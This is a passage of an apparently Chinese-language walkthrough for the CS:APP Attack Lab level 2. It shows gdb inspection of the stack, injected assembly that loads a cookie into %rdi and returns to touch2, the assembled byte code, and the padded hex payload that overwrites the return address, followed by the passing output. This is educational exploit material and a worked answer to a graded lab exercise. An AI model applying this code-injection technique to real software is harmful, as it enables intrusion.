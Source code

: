 前面通过 `gdb` 查看 `getbuf` 中的内存，发现栈顶的地址是 `0x0x5561dc78`，所以我们可以把需要执行的代码段在最前面写入，然后把这个地址放到 `0x4017c0` 的位置就可以插入我们要执行的代码。

```js
(gdb) b*0x4017ac
(gdb) r -q
(gdb) x/6gx $rsp
0x5561dc78:     0x0000000000000000      0x0000000000000000
0x5561dc88:     0x0000000000000000      0x0000000000000000
0x5561dc98:     0x0000000000000000      0x00000000004017c0
```

下面来看一下我们需要执行的代码应该怎么写，这里需要就 `val` 设置成 `cookie` 的值，那么如何找到 `cookie` 的值呢？

可以运行到 `touch2` 然后打断点，简单地将 level1 中 `touch1` 的地址修改为 `touch2` 即执行到 `touch2` 中，然后通过在 gdb 中运行 `x 0x6044e4` 发现 `cookie` 的值为 `0x59b997fa`，所以只需要把 `%rdi` 设置成 `cookie` 值即可。

所以要执行的代码就是设置 `val` 的值，即为 `touch2` 函数的第一个参数，对应寄存器为 `$rdi`，接着再执行 `touch2` 函数，这里可以首先将 `touch2` 的地址压到栈里面，执行完指令之后，通过 `retq` 就可以执行这个压栈地址对应的 procedure，这种方式相对来说最简单，那么对应的代码如下

```js
pushq $0x4017ec
movq $0x59b997fa,%rdi
ret
```

将这个文件保存为 `example.s`，然后通过下面的方式，首先 assemble 这个文件，然后 disassemble 它

```shell
unix> gcc -s example.s
unix> objdump -d example.o > example.d
```

这样就可以得到 `example.d` 的文件如下

```js
Disassembly of section .text:

0000000000000000 <.text>:
   0:	68 ec 17 40 00       	pushq  $0x4017ec
   5:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   c:	c3                   	retq
```

从上面的代码中就可以看出，对应的 3 个汇编指令的字节码，比如第一个 `pushq` 的字节码就是 `68 ec 17 40 00`，最终写入的 txt 文本为

```txt
68 ec 17 40 00
48 c7 c7 fa 97 b9 59
c3
00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00
78 dc 61 55
```

中间的 `00` 是为了填充空白的内存，最后在栈顶将返回的地址替换成 `0x5561dc78`，这样就会执行写入字符串的 3 个指令，接着再执行 `touch2`。

```shell
./hex2raw -i ctarget.2.txt| ./ctarget -q

Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
```
